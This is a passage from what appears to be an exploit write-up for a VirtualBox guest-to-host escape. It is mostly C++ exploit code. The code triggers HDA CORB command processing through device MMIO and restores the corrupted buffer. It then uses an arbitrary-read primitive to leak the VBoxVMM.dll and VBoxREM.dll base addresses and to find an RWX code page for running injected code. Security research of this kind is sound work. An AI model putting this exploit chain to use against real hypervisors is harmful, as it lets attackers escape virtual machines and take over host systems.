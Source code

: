 ~~~c++

        *(uint32_t*)&mapped_hda_mmio[0x40] = data.LowPart;
        *(uint32_t*)&mapped_hda_mmio[0x44] = data.HighPart;
        *(uint8_t*)&mapped_hda_mmio[0x4c] = 2;                                      // CALL hdaR3CORBCmdProcess()

        eeprom_relative_write_qword(eeprom_offset_pu32CorbBuf, pu32CorbBuf_ptr);    // RESTORE CORB BUFFER
        return true;
    }
    else
    {
        DbgPrint("[-] pu32CorbBuf_ptr IS UNINITIALIZED\n");
        return false;
    }
}
~~~

#### The Code Execution

The VirtualBoxVM process has a page with RWX protection within the VBoxREM.dll memory:

~~~c
static void page_init(void)
{
    
....    
    
    RTMemProtect(code_gen_buffer, code_gen_buffer_size,
                 RTMEM_PROT_EXEC | RTMEM_PROT_READ | RTMEM_PROT_WRITE);

....
    
}  
    
~~~

Before we use the arbitrary write primitive, we should use the arbitrary read primitive to backup the original **pu32CorbBuf** value then restore the buffer after the execution. 

From the leaked VboxDD.dll image base, we use the arbitrary read primitive to leak the VboxREM.dll image base and get the **code_gen_buffer** pointer:

~~~c++
CFGMR3QueryU16Def_funcptr = arbitrary_read(vboxdd_base + vboxdd_offset_CFGMR3QueryU16Def);
vboxvmm_base = CFGMR3QueryU16Def_funcptr - vboxvmm_offset_CFGMR3QueryU16Def;
if ((vboxvmm_base & 0xffff) != 0)
{
    DbgPrint("[-] INVALID VBOXVMM BASE: 0x%llx!\n", CFGMR3QueryU16Def_funcptr);
    return false;
}
DbgPrint("[+] VBOXVMM.DLL BASE: 0x%llx\n", vboxvmm_base);

REMR3Step_func_ptr = arbitrary_read(vboxvmm_base + vboxvmm_offset_REMR3Step);
vboxrem_base = REMR3Step_func_ptr - vboxrem_offset_REMR3Step;
if ((vboxrem_base & 0xffff) != 0)
{
    DbgPrint("[-] INVALID VBOXREM.DLL BASE: 0x%llx!\n", REMR3Step_func_ptr);
    return false;
}
DbgPrint("[+] VBOXREM.DLL BASE: 0x%llx\n", vboxrem_base);

RWX_page_addr = arbitrary_read(vboxrem_base + vboxrem_offset_code_gen_buffer);
~~~
